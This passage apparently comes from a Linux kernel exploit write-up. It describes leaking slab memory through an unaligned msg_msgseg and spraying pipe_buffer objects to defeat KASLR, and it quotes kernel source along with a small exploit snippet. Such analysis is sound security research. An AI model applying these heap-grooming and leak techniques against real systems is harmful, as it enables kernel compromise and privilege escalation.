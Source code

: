 ```c

if (upper_msg_msg_holder == -1 || lower_msg_msg_holder == -1)
{
	err(1, "fail to leak unaligned msg_msg...");
}
```
We can now leak contents of `kmalloc-cg-1k` slab from unaligned `struct msg_msgseg` pointed by the `next` field of `struct msg_msg`. The unaligned `struct msg_msgeg` would lie between two `struct msg_msg` objects. We need to identify which `struct msg_msg` objects are overlapped with the unaligned `struct msg_msgseg` object to control memory layout.

![lts_4](./img/lts_4.png)

 To do this, we leak the contents of 1k-sized `struct msg_msg` objects via `struct msg_msgseg` and parse them for unique idx marked from [Heap grooming step](#63-heap-grooming). These marks serve as indicators, enabling us to locate the `upper_msg_msg_holder` and `lower_msg_msg_holder`, which are the message queue id holding `struct msg_msg` objects respectively.

- [include/linux/pipe_fs_i.h:pipe_buffer](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/include/linux/pipe_fs_i.h?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n26)
```c
struct pipe_buffer {
	struct page *page;
	unsigned int offset, len;
	const struct pipe_buf_operations *ops;
	unsigned int flags;
	unsigned long private;
};
```
Now we can spray the `struct pipe_buffer` objects to leak KASLR. the `struct pipe_buffer` object is used for the KASLR leak because it contains a vtable pointer in the `ops` field, which is located in the kernel image (`anon_pipe_buf_ops` by default).

- [fs/pipe.c:alloc_pipe_info()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/fs/pipe.c?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n782)
```c
struct pipe_inode_info *alloc_pipe_info(void)
{
	struct pipe_inode_info *pipe;
	unsigned long pipe_bufs = PIPE_DEF_BUFFERS;
	struct user_struct *user = get_current_user();
	unsigned long user_bufs;
	unsigned int max_size = READ_ONCE(pipe_max_size);

	pipe = kzalloc(sizeof(struct pipe_inode_info), GFP_KERNEL_ACCOUNT);

// ...
	pipe->bufs = kcalloc(pipe_bufs, sizeof(struct pipe_buffer),
			     GFP_KERNEL_ACCOUNT);
// ... 
}
```
- [fs/pipe.c:pipe_write()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/fs/pipe.c?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n415)
```c
// ...
			buf = &pipe->bufs[head & mask];
			buf->page = page;
			buf->ops = &anon_pipe_buf_ops;
			buf->offset = 0;
			buf->len = 0;
// ...
```
